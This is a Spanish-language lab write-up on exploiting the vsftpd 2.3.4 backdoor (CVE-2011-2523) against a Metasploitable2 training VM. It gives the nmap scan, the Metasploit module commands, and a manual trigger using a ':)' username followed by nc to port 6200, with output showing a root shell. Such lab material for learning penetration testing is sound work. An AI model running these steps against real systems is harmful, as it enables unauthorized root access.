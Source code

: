 # 🎯 Laboratorio: Explotación de vsftpd 2.3.4 en Metasploitable2.

> Este ejercicio simula un escenario real de pentesting donde se identifica y explota un servicio FTP vulnerable para obtener acceso al sistema como `root`.
> Nivel de dificultad: Fácil.

---

## 🔍 1.Reconocimiento inicial con Nmap.

```bash
nmap -sS -sV -p- 192.168.56.102
```

### Resultado:

| Puerto  | Estado | Servicio | Versión     |
|---------|--------|----------|-------------|
| 21/tcp  | open   | ftp      | vsftpd 2.3.4 |


✅ Observamos que el servicio FTP usa la versión vsftpd 2.3.4, la cual es conocida por tener una backdoor deliberada.

## 🧠 2. Análisis de vulnerabilidad.

La versión vsftpd 2.3.4 contiene una puerta trasera activada cuando se incluye un :) como parte del nombre de usuario.

Referencias:

- [CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523).
- Vector: FTP login → trigger backdoor shell.

## 💥 3. Explotación automática con Metasploit.

En este punto, tenemos dos vías para poder explotar el servicio vsftpd: manualmente o de manera automática con Metasploit.

1. Iniciar Metasploit. Se lanza la consola de Metasploit Framework, una herramienta poderosa para realizar pruebas de penetración. Este entorno permite acceder a una amplia gama de exploits, payloads y módulos auxiliares.

```bash
msfconsole
```

2. Configurar y ejecutar el exploit vsftpd_234_backdoor.  Se selecciona un exploit dirigido a una versión vulnerable del servidor FTP vsftpd (2.3.4), que contiene una puerta trasera. Se configuran los parámetros del objetivo (RHOST y RPORT) y se ejecuta el ataque para obtener acceso no autorizado al sistema.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.102
set RPORT 21
exploit
```
### Resultado:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - Backdoor service has been spawned, handling...
[*] Command shell session 1 opened

Shell obtenida, ejecutamos comandos como whoami e id para ver nuestro usuario actual en el sistema.

- whoami: root
- id: uid=0(root) gid=0(root)

## 🧠 4. Exploit manual

```bash
telnet 192.168.56.102 21
```

```
Trying 192.168.56.102...
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
USER test:)
```

Al usar test:) se activa el backdoor que escucha en el puerto 6200/tcp.

Nos conectamos y obtenemos la shell con:

```bash
nc 192.168.56.102 6200
```

## 🎯 5. ¡Objetivo conseguido!.

| Objetivo                     | ¿Alcanzado? |
|-----------------------------|-------------|
| Reconocimiento de puertos   | ✅ Sí        |
| Identificación de versiones | ✅ Sí        |
| Uso de exploits públicos    | ✅ Sí        |
| Acceso al sistema           | ✅ Sí        |
| Acceso como root            | ✅ Sí        |
| Documentación del proceso   | ✅ Sí        |
